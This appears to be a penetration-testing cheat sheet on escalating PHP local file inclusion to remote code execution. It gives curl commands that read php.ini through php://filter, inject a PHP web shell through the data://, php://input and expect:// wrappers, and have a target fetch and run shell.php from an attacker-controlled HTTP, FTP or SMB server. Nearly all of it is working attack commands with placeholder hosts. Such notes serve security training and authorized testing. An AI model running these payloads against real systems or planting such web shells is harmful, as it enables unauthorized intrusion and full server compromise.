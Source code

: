 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# RCE

## PHP Wrappers

### allow\_url\_include

The [data](rce.md#data) and [input](rce.md#input) wrappers depend on the PHP configuration `allow_url_include` (disabled by default). The PHP config file is under:

* `/etc/php/X.Y/apache2/php.ini` for Apache
* `/etc/php/X.Y/fpm/php.ini` for Nginx

{% code overflow="wrap" %}
```shell
# Using LFI & the PHP filter to read the configuration file
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
# Searching for the allow_url_include option
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```
{% endcode %}

### Data

The [data wrapper](https://www.php.net/manual/en/wrappers.data.php) can be used to include external data.

{% code overflow="wrap" %}
```shell
# Encoding a basic PHP web shell (base64 -> URL)
echo '<?php system($_GET["cmd"]); ?>' | base64 | jq -sRr @uri
# Using the data wrapper to decode the string and get RCE
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
{% endcode %}

### Input

The difference between the [input](https://www.php.net/manual/en/wrappers.php.php) and the data wrapper is that for the former, the vulnerable parameter must also accept `POST` requests. If the function only accepts `POST` requests, we can create a static webshell by putting the command directly within the PHP code.

{% code overflow="wrap" %}
```shell
# Getting RCE with the input wrapper (GET & POST)
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
# Getting RCE with the input wrapper (POST only)
curl -s -X POST --data '<?php system("id"); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
{% endcode %}

### Expect

The  [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper is an external wrapper, i.e., it need to be manually installed and enabled, which allows us to directly run command through URL streams. We can check if that is the case similarly to the [`allow_url_include`](rce.md#allow\_url\_include) and grepping for `expect.`

{% code overflow="wrap" %}
```shell
# Checking if the except extension is installed
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
# Getting RCE using expect
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
{% endcode %}

## RFI

If the vulnerable function allows the inclusion of remote URLs, then we can also perform a RFI[^1] attack, which allows for gaining RCE by including a malicious script that we host and enumerating local-only ports.

| Function                     | Read Content | Execute | Remote URL |
| ---------------------------- | :----------: | :-----: | :--------: |
| **PHP**                      |              |         |            |
| `include()`/`include_once()` |       ✅      |    ✅    |      ✅     |
| `file_get_contents()`        |       ✅      |    ❌    |      ✅     |
| **Java**                     |              |         |            |
| `import`                     |       ✅      |    ✅    |      ✅     |
| **.NET**                     |              |         |            |
| `@Html.RemotePartial()`      |       ✅      |    ❌    |      ✅     |
| `include`                    |       ✅      |    ✅    |      ✅     |

In the case that a function allows remote URLs but does not allow code execution, we can exploit the vulnerability to enumerate local ports through [SSRF](../ssrf-to-lfi.md).

### Identify

A reliable way to determine whether an LFI flaw is also an RFI one is to try and include a local URL (for ensuring that does not get blocked by security measures) and see if we can get its content.

```html
<!-- Requesting a local URL -->
/index.php?language=http://127.0.0.1:80/index.php
```

If the `index.php` page gets included and executed, i.e., rendered -> RFI + RCE.

### RCE

#### HTTP

{% code overflow="wrap" %}
```shell
# Creating a webshell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
# Serving the webshell via an HTTP server
sudo python3 -m http.server [80 | 443]
# RCE
curl http://<ip:port>/index.php?language=http://<attacker-ip:port>/shell.php&cmd=id
```
{% endcode %}

#### FTP

This may be useful in case HTTP ports are blocked or the `http://` string gets blocked by a WAF. By default, PHP tries to authenticate as an anonymous user.

{% code overflow="wrap" %}
```shell
# Serving the webshell via an FTP server
sudo python -m pyftpdlib -p 21
# RCE
curl http://<ip:port>/index.php?language=ftp://<attacker-ip>/shell.php&cmd=id
# If authentication is required
curl 'http://<ip:port>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```
{% endcode %}

#### SMB

If the web application is hosted on a Windows server we can utilize the SMB protocol for the remote file inclusion, as Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path. This technique is more likely to work if we were on the same network, as accessing remote SMB servers over the internet may be disabled by default.

```shell
# Serving the webshell via an SMB server
impacket-smbserver -smb2support share $(pwd)
# RCE
curl http://<ip:port>/index.php?language=\\<attacker-ip>\share\shell.php&cmd=whoami
```



[^1]: Remote File Inclusion
